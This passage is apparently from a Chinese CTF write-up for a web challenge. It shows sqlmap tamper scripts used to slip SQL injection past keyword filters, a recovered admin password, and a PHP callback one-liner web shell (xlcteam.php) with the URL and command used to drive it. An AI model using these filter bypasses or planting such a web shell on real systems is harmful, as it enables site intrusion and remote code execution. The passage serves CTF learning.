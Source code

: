         ```mysql
        keywords = ("UNION", "SELECT", "INSERT", "UPDATE", "FROM", "WHERE")
        ```

        在该tamper中只实现了以上几个关键词的双重过滤，而实际情况需要根据过滤的名单来确定，所以其灵活性不够，不知道是否有可以自定义过滤名单的tamper，或者需要自己实现一个该类型的tamper

        - **space2comment.py** 用/**/代替空格  

          ```shell
          sqlmap -u “http://1.1.1.1/a.php?id=1” --tamper="between.py, randomcase.py,space2comment.py" -v 3
          dpkg -L sqlmap | grep tamper (找要引用的脚本)  
          -v 3是为了显示更加详细的内容
          ```

          

   - 观察得到的结果，联系passencode.php，可以解出password为：fuckruntu 

#### 0x3 登录后台

- 使用得到的用户名密码登录后台，看到页面

> 恭喜你已拿下后台，离爆菊只差一步了flag1:nctf{}
>
>
> 能来到这里，相信也不是只会用工具的脚本小子了
> 现在离爆菊只差一步了
> 因为程序猿连后台都懒得开发了，为了方便管理，他邪恶地放了一个一句话木马在网站的根目录下
> 小马的文件名为：xlcteam.php
> 黑阔，哎哟~不错哦

- 查看xlcteam.php

```php+html
<?php

$e = $_REQUEST['www'];
$arr = array(
    $_POST['wtf'] => '|.*|e',
);
array_walk($arr, $e, ''); ?>

```

- 该页面为php回调函数一句话，使用菜刀连接

`http://cms.nuptzj.cn/loginxlcteam/xlcteam.php?www=str_replace  密码：wtf`

​	或者提交以下命令：

```php
wtf='print_r(scandir())'   
```

​	

- 遍历文件，看到flag相关的txt文件，打开即得到答案

## 漏洞挖掘思路

- todo

## 自动化解析

- TODO

- 判断题目特征：`web` `php` `md5 collision`
- 设定题目难度等级`level`为simple
- 提交相应符合要求的字符串
